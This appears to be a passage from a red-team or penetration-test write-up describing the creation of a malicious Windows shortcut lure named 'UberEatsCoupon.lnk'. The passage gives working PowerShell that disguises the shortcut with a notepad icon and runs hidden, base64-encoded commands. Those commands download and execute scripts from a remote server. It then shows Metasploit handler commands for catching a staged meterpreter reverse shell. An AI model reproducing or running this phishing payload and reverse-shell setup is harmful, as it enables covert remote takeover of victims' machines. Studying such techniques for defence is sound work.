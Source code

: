 This process has been neglected for possible abuse cases.

Finally crafting the LNK file

```bash
$doordash = 'iex (iwr -UseBasicParsing http://192.168.20.131:8888/google.txt);(iwr -usebasicparsing http://192.168.20.131:8888/facebookTest.ps1)|IEX'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($doordash)
$encodedCommand = [Convert]::ToBase64String($bytes)
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("D:\Users\hacker\Desktop\UberEatsCoupon.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\windows\system32\cmd.exe"
$link.iconlocation = "C:\windows\system32\notepad.exe"
$link.arguments = "/c powershell -Nop -ep bypass -w hidden -EncodedCommand  $($encodedCommand)"
$link.save()
```
With all the preperation done, the tester proceeded to receive the staged meterpreter shell 

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 
set lport 
set ENABLESTAGEENCODING true
set AutoLoadStdapi false
exploit
```


